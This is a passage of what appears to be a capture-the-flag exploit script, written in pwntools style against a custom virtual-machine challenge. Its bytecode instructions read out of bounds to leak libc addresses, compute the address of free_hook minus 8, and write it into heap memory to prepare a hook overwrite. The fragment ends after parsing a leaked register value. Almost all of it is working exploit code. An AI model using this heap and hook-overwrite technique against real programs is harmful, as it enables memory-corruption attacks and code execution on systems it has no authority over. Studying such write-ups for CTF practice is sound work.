 ```python
sla("SP: ",'1')
sla("CODE SIZE: ",'24')
ru("CODE: ")

sl(code_generate(0x10, 0, 0, 0x1a))#reg[0] = 0x1a

sl(code_generate(0x80, 1, 1, 0))#reg[1] = reg[1] - reg[0]

sl(code_generate(0x30, 2, 0, 1))#reg[2] = memory[reg[1]];libc


sl(code_generate(0x10, 0, 0, 0x19))#reg[0] = 0x19

sl(code_generate(0x10, 1, 0, 0))#reg[1] = 0

sl(code_generate(0x80, 1, 1, 0))#reg[1] = reg[1] - reg[0]

sl(code_generate(0x30, 3, 0, 1))#reg[3] = memory[reg[1]];libc


sl(code_generate(0x10, 4, 0, 1))#reg[4] = 1

sl(code_generate(0x10, 5, 0, 0xc))#reg[5] = 0xc

sl(code_generate(0xC0, 4, 4, 5))#reg[4] = reg[4]<<reg[5];0x1000


sl(code_generate(0x10, 5, 0, 0xa))#reg[5] = 0xa

sl(code_generate(0x10, 6, 0, 4))#reg[6] = 9

sl(code_generate(0xC0, 5, 5, 6))#reg[5] = reg[5]<<reg[6];0xa0


sl(code_generate(0x70, 4, 4, 5))#reg[4] = reg[4]+reg[5]

sl(code_generate(0x70, 2, 4, 2))#reg[2] = reg[4]+reg[2];free_hook-0x8


sl(code_generate(0x10, 4, 0, 8))#reg[4] = 8

sl(code_generate(0x10, 5, 0, 0))#reg[5] = 0

sl(code_generate(0x80, 5, 5, 4))#reg[5] = reg[5] - reg[4]

sl(code_generate(0x40, 2, 0, 5))#memory[reg[5]]=reg[2];heap -> free_hook-0x8


sl(code_generate(0x10, 4, 0, 7))#reg[4] = 7

sl(code_generate(0x10, 5, 0, 0))#reg[5] = 0

sl(code_generate(0x80, 5, 5, 4))#reg[5] = reg[5] - reg[4]

sl(code_generate(0x40, 3, 0, 5))#memory[reg[5]]=reg[3];heap -> free_hook-0x8


sl(code_generate(0xE0, 0, 1, 1))#exit



ru("R2: ")
low = int(ru('\n').strip(), 16) + 0x8
```